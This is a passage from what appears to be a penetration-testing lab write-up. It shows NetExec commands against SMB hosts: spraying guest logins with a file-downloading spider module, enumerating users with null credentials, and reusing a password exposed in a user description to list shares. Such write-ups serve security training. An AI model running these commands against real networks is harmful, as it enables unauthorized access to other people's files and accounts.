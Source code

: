 We see the folder where out output is stored but since we don't have access to the files we can't access anything:

<figure><img src="../.gitbook/assets/image (1228).png" alt=""><figcaption></figcaption></figure>

Obviously we can spray a bit more on a whole list of targets with our host file:

```
nxc smb ./host.txt -u 'guest' -p '' -M spider_plus -o DOWNLOAD_FLAG=True
```

Now we are going to try and find some users that may have some more privileges to read shares ->

So first we are going to try some null credentials ->

```
nxc smb host.txt -u '' -p '' --users
```

<figure><img src="../.gitbook/assets/image (1229).png" alt=""><figcaption><p>John Hammond (Password : plzsubscribe)</p></figcaption></figure>

We can see a user with a set of credentials, bingo :tada:

SO now it's going to be real easy to enumerate the shares:

```
nxc smb host.txt -u johnh -p "plzsubscribe" --shares
```
